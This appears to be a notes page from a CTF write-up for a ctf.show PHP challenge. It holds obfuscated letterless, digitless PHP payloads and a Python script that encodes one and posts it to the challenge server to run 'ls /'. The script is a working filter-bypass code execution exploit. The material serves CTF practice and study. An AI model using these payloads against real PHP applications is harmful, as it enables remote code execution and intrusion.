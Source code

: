 - # 4
	- ```php
	  $_=(_/_._)[0];
	  $__=++$_;
	  $__=_.++$_.$__;
	  $_++.$_++;
	  $__.=(++$_).(++$_);
	  $$__[_]($$__[0]);
	  ```
- # 5
	- ```python
	  payload = """
	  $_=_(_/_)[_];
	  $你=++$_;
	  $你=_.++$_.$你;
	  ++$_;
	  ++$_;
	  $你.=++$_.++$_;
	  $$你[_]($$你[吗]);
	  """
	  payload = payload.replace("\n", "")
	  payload = payload.encode()
	  payload = payload.replace("你".encode(), b"\xff").replace("吗".encode(), b"\xfe")
	  print(len(payload))
	  # print(re.search("[a-zA-Z0-9!'@#%^&*:{}\-<\?>\"|`~\\\\]", payload))
	  print(payload)
	  print("".join(hex(i).replace("0x", "%") for i in payload))
	  url = "http://2ce05fe9-0188-4689-be63-09776db9a902.challenge.ctf.show/"
	  r = base_post(url, data = {
	      "ctf_show": payload,
	      b"\xfe": "ls /",
	      "_": "var_dump",
	  })
	  print(r.text)
	  ```
	- requests传参数的坑
		- {{embed ((64cb9a6f-4ae1-417b-af8f-18485741a841))}}
		-